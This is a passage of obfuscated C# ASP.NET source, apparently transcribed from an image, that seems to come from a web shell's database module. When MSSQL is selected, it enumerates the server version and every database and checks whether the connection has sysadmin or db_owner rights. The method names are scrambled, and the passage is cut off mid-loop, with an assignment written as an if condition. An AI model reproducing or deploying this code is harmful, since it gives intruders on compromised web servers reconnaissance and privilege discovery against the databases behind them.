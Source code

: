 rom.DataBind();
for(int i=0;i<rom.Items.Count;i++)
{
string bg=OKM();
rom.Items[i].CssClass=bg;
rom.Items[i].Attributes["onmouseover"]="this.className='focus';";
rom.Items[i].Attributes["onmouseout"]="this.className='"+bg+"';";
}
rom.Visible=true;
}
catch(Exception e)
{
xseuB(e.Message);
rom.Visible=false;
}
}
private void lRavM(object sender,EventArgs e)
{
DataGrid d=(DataGrid)sender;
foreach(DataGridItem item in d.Items)
{
foreach(TableCell t in item.Cells)
{
t.Text=t.Text.Replace("<","&lt;").Replace(">","&gt;");
}
}
}
public void vCf()
{
dQIIF.Visible=true;
try
{
jHIy.InnerHtml=string.Empty;
if(WYmo.SelectedItem.Text=="MSSQL")
{
rom.Visible=false;
uXevN.Visible=true;
irTU.Visible=true;
OUj();
DataTable ver=CYUe(@"SELECT @@VERSION");
DataTable dbs=CYUe(@"SELECT name FROM master.dbo.sysdatabases");
DataTable cdb=CYUe(@"SELECT DB_NAME()");
DataTable rol=CYUe(@"SELECT IS_SRVROLEMEMBER('sysadmin')");
DataTable YKrm=CYUe(@"SELECT IS_MEMBER('db_owner')");
string jHlh=ver.Rows[0][0].ToString();
string dbo=string.Empty;
if(YKrm.Rows[0][0].ToString()=="1")
{
dbo="db_owner";
}
else
{
dbo="public";
}
if(rol.Rows[0][0].ToString()=="1")
{
dbo="<font color=blue>sa</font>";
}
string db_name=string.Empty;
foreach(ListItem item in FGEy.Items)
{
 if(item.Selected=true)
 {
 item.Selected=false;